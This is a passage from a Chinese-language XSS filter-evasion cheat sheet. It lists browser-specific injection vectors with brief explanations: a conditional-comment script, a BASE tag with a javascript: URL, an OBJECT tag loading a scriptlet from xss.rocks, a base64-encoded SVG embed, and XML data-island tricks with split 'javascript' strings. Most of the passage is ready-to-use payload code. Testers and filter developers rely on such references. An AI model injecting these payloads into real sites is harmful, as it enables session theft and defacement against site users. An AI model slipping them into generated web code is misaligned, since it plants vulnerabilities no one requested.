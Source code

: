 ```js
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```

### BASE 标签

（在安全模式下在 IE 上有效）这种攻击需要 `//` 来注释掉下一个字符，这样你就不会得到 JavaScript 错误，并且你的 XSS 标签将呈现。另外，这依赖于许多网站使用动态放置的图像，如 `images/image.jpg` 而不是完整路径。如果路径包含前导正斜杠，如 `/images/image.jpg`，你可以从这个向量中删除一个斜杠（只要一开始有两个，这将起作用）：

```html
<BASE HREF="javascript:alert('XSS');//">
```

### OBJECT 标签

如果系统允许对象，你还可以使用 APPLET 标签注入病毒有效载荷，可以感染用户等。链接的文件实际上是一个 HTML 文件，可以包含你的 XSS：

```html
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

### 包含 XSS 向量的嵌入 SVG

这种攻击仅在 Firefox 中有效：

```html
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

（感谢 nEUrOO 提供这个）

### 带有 CDATA 混淆的 XML 数据岛

这种 XSS 攻击仅在 IE 中有效：

```html
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

### 带有嵌入 JavaScript 的本地托管 XML，使用 XML 数据岛生成

这种攻击与上面几乎相同，但它引用了一个本地托管（在同一服务器上）的 XML 文件，该文件将保存你的 XSS 向量。你可以在这里看到结果：

```html
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

### HTML+TIME in XML

